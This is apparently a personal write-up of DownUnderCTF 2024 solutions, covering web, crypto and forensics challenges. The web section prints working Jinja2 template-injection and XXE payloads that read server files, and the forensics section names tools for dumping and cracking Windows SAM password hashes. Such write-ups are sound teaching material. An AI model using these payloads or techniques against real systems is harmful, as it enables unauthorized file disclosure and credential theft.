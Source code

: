 ```yaml
---
title: 'down-under ctf 2024 challenges'
description: 'Solutions I did for down-under 2024'
pubDatetime: 2023-04-23T15:22:00Z
modDatetime: 2023-12-21T09:12:47.400Z
tags: 
- "writeup"
---
```


# Background Information

Competed as team Lazy Bums. Sort of lost interest a day in. 

## Web

#### Parrot The Emu
This code is vulnerable to user-supplied malicious payloads

```python
user_input = request.form.get('user_input')
        try:
            result = render_template_string(user_input)
```

{{7*7}} verifies that the code is vulnerable to template injection as it returns 49, which means that the server is processing the inputted template

Sending the payload: ```{{ self.__init__.__globals__.__builtins__.open('flag').read() }}``` will return the flag as it reads the flag file defined in the supplied source code files.

#### Zoo Feedback Form
Upon inspecting the code, we can see that XML is used in the post request sent to the web server

```python
if request.method == 'POST':
        xml_data = request.data
        try:
            parser = etree.XMLParser(resolve_entities=True)
            root = etree.fromstring(xml_data, parser=parser)
        except etree.XMLSyntaxError as e:
            return render_template_string('<div style="color:red;">Error parsing XML: {{ error }}</div>', error=str(e))
        feedback_element = root.find('feedback')
        if feedback_element is not None:
            feedback = feedback_element.text
            return render_template_string('<div style="color:green;">Feedback sent to the Emus: {{ feedback }}</div>', feedback=feedback)
        else:
            return render_template_string('<div style="color:red;">Invalid XML format: feedback element not found</div>')

    return render_template('index.html')
```

Load the web server onto burpsuite.

Inspect the post request, you can see that it sends an XML request. This must mean it can be vulnerable to XXE injection

You can see that an XML request is sent, so we can modify it using a basic XXE injection where we read ```flag.txt``` through an XML entity object

```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY example SYSTEM "/app/flag.txt"> ]>
<root>
  <feedback>
    a&example;
  </feedback>
</root>
```

Upon sending, we get the flag. 

## Crypto
#### ShuffleBox
Let's look at the provide files.

```bash
aaaabbbbccccdddd -> ccaccdabdbdbbada
abcdabcdabcdabcd -> bcaadbdcdbcdacab
???????????????? -> owuwspdgrtejiiud
```

#### Sun Tzu's Perfect Math Class
Just use chatgpt to solve the riddle.

Solve script for part 2:

```python
from sympy import mod_inverse
from gmpy2 import iroot

# Given values
e = 3
c1 = int("105001824161664003599422656864176455171381720653815905925856548632486703162518989165039084097502312226864233302621924809266126953771761669365659646250634187967109683742983039295269237675751525196938138071285014551966913785883051544245059293702943821571213612968127810604163575545004589035344590577094378024637")
c2 = int("31631442837619174301627703920800905351561747632091670091370206898569727230073839052473051336225502632628636256671728802750596833679629890303700500900722642779064628589492559614751281751964622696427520120657753178654351971238020964729065716984136077048928869596095134253387969208375978930557763221971977878737")
c3 = int("64864977037231624991423831965394304787965838591735479931470076118956460041888044329021534008265748308238833071879576193558419510910272917201870797698253331425756509041685848066195410586013190421426307862029999566951239891512032198024716311786896333047799598891440799810584167402219122283692655717691362258659")
n1 = int("147896270072551360195753454363282299426062485174745759351211846489928910241753224819735285744845837638083944350358908785909584262132415921461693027899236186075383010852224067091477810924118719861660629389172820727449033189259975221664580227157731435894163917841980802021068840549853299166437257181072372761693")
n2 = int("95979365485314068430194308015982074476106529222534317931594712046922760584774363858267995698339417335986543347292707495833182921439398983540425004105990583813113065124836795470760324876649225576921655233346630422669551713602423987793822459296761403456611062240111812805323779302474406733327110287422659815403")
n3 = int("95649308318281674792416471616635514342255502211688462925255401503618542159533496090638947784818456347896833168508179425853277740290242297445486511810651365722908240687732315319340403048931123530435501371881740859335793804194315675972192649001074378934213623075830325229416830786633930007188095897620439987817")

# Applying Chinese Remainder Theorem
N = n1 * n2 * n3
n1_inv = mod_inverse(N // n1, n1)
n2_inv = mod_inverse(N // n2, n2)
n3_inv = mod_inverse(N // n3, n3)

C = (c1 * n1_inv * (N // n1) + c2 * n2_inv * (N // n2) + c3 * n3_inv * (N // n3)) % N

m, exact = iroot(C, 3)
if exact:
    print(f"The hidden message is: {m}")
else:
    print("Failed to recover the hidden message.")
```

## Forensics
#### Baby's First Foren

Looking throughout the HTTP object yields the strange phrase `nikto`. Upon further research, nikto is a web vulnerability scanner

Following the tcp stream and searching for `nikto` yeilds the version.

#### SAM I AM

Use a tool like `samdump2 system.bak sam.bak` and get the password hashes. Then crack the NT hashes using `john` and get the password